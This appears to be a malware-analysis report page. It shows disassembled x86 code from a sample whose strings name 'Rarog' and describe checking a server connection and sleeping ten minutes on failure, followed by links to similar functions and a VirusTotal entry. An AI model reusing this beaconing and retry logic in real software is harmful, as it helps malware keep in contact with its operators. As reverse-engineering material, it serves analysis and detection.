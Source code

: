 mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov eax,esp
mov dword[ebp-0x48c],esp
push eax
mov byte[ebp-4],0x11
call fcn.0040318d
lea ecx,[ebp-0x32c]
mov byte[ebp-4],bl
call fcn.00401626
push str.success
sub esp,0x1c
mov byte[ebp-4],0x12
lea eax,[ebp-0x32c]
mov esi,esp
mov dword[ebp-0x480],esp
push eax
call fcn.004026e3
lea edi,[ebp-0x16c]
call fcn.0040a341
mov edx,eax
mov byte[ebp-4],0x13
call fcn.00408c1b
pop ecx
push ebx
push 1
mov ecx,edi
mov byte[ebp-0x48d],al
mov byte[ebp-4],0x12
call fcn.00401cd0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x480],esp
mov dword[ecx+0x10],ebx
cmp byte[ebp-0x48d],bl
je 0x405b37
mov dword[ecx+0x14],0xf
push str.Rarog___checkConnection_request_failed__using_Sleep_600000_
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
push 0x927c0
call dword[sym.imp.KERNEL32.dll_Sleep]
push ebx
push 1
lea ecx,[ebp-0x32c]
mov byte[ebp-4],bl
call fcn.00401cd0
push 0xf
pop esi
jmp 0x405a18
push 0xf
pop esi
mov dword[ecx+0x14],esi
push str.Rarog___Successful_connected_to_server
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x480],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6